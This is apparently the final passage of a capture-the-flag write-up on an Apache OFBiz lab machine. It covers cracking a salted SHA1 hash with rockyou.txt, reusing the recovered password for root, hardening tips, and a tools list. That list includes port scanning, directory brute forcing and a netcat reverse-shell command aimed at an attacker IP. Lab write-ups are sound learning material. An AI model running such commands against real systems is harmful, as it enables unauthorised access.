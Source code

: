 And here is the result:
(the last four bytes are trash becasue of the padding, we must use the first 40 chars)
`b8fd3f41a541a435857a8f3e751cc3a91c1743621834`

So we have to find out what is the password which:

SHA1("d{password}") === `b8fd3f41a541a435857a8f3e751cc3a91c174362`

This can be solved using a dictionary method (using rockyou.txt for example) and we can find out that the password is
"monkeybizness"

This is the admin password for the ofbiz but with any luck, we can find something useful on the ofbiz admin panel OR this is the same as the root password.
In this case, we can use it as root password and can upload the flag.

## Summary


This machine had two parts:
* logging in was easy. You must know some basic tool and find an existing exploit
* becoming root was hard af (for me). You must become familiar to the source code of ofbiz and "reverse engineer" the salted hash
    - Next time I see an apache hash, I will do what to do
    - The steps I should have done:
        1) Downloading every file from the server to my machine after get the reverse shell
        2) Analize the hell out of the downloaded files (find every password related stuff)
        3) Find out what is that hashed, salted password
        4) Write a Python script for brute forcing the hash using rockyou.txt
    - Still, I needed three things:
        1) The root password was lame, it was in the rockyou.txt
        2) The root password was used for ofbiz, too

Still, it was fun even when I had to check help for it. :)

### Protecting servers
    1) Disable brute force discoveries
    2) Strong passwords
    3) Updated systems
    4) Disable outgoing ports

### Used tools
    * nmap
        - sudo nmap -v -sS -p 1-10000 $TARGET : Scan every TCP port with service discovery
    * dirb : directory bruteforce
        - dirb http://webpage.com : The webpage to bruteforce
    * rockyou.txt : A large password collection
    * nc
        - nc -lp 1337 : Listen to port 1337
        - nc -c bash 10.10.14.188 1337 : If you can execute this on the attacked machine, you will get a reverse shell. (The IP is your machine)